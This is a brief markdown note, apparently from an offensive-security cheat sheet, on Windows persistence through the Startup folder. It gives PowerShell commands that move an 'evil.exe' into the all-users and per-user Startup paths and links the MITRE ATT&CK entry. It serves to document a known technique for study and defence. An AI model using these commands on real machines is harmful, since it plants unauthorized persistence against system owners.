 # Startup Folder for Persistence

Applications in the startup folders are executed when system starts.  
If we want to run our own executable file at system startup, we can do so with the following command:

```powershell
# For all users (Administrator privileges required)
mv .\evil.exe 'C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\'
# For specific user
mv .\evil.exe 'C:\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\'
```

## Resources

- [MITRE ATT&CK](https://attack.mitre.org/techniques/T1547/001/)